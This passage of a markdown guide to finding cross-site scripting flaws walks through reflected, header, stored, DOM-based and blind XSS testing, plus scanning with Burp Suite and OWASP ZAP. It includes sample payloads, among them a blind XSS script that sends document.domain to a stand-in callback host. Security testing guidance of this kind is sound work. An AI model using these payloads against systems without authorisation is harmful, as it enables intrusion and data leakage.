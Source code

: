 - **Manual Approach**:  
  - Insert event handler payloads like `<img src="x" onerror="alert(1)">` or `<a href="#" onclick="alert(1)">Click Me</a>`.  
  - Test elements that might accept URLs as input, such as href attributes in `<a>` tags.

#### **C. Reflected XSS via HTTP Headers** 🌐
- **Where to test**:  
  - `Referer`, `User-Agent`, `Location`, and other HTTP headers.
  
- **Manual Approach**:  
  - Use tools like **Burp Suite** or **Postman** to modify HTTP headers and insert payloads (e.g., `Referer: <script>alert(1)</script>`).

#### **D. Stored XSS in Databases** 🗄️
- **Where to test**:  
  - Comment sections, profile pages, or any form of persistent data entry.
  
- **Manual Approach**:  
  - Input payloads into text areas or forms that are stored in the database (e.g., comment sections or user profile information).  
  - Reload the page and check if the payload executes.

#### **E. DOM-based XSS (Client-Side Injection)** 🖥️
- **Where to test**:  
  - JavaScript-based applications or dynamically generated content using JavaScript.
  
- **Manual Approach**:  
  - Analyze JavaScript code (e.g., using browser developer tools) to identify insecure DOM manipulation that does not sanitize input.  
  - Inject payloads via browser console or URL fragments (e.g., `#<script>alert(1)</script>`).

#### **F. Blind XSS** 🕵️‍♂️
- **Where to test**:  
  - Admin panels, backend applications, or systems that accept user input and store it for later use.
  
- **Manual Approach**:  
  - Inject a payload like `<script>new Image().src='http://your-xss-report-url/'+document.domain;</script>` into forms or fields that store data without triggering an immediate response.  
  - The payload will execute when an admin or another user accesses the stored data, and you'll get a callback notification.

---

### 2. **Automated Tools and Techniques** 🤖

#### **A. Burp Suite (Scanner & Intruder)** 🛠️
- **Where to use**: Any page that accepts user input.  
- **How to Use**:  
  - Intercept traffic in Burp Suite and use **Intruder** to fuzz for common XSS payloads.  
  - Use **Scanner** to automatically scan for reflected, stored, and DOM-based XSS.

#### **B. OWASP ZAP (Zed Attack Proxy)** 🔓
- **Where to use**: Any form or input field.  
- **How to Use**:  
  - Run a **Passive Scan** to detect reflected XSS or use **Active Scan** to actively look for vulnerabilities.  
  - Use **Fuzzer** to automate testing of user input fields.
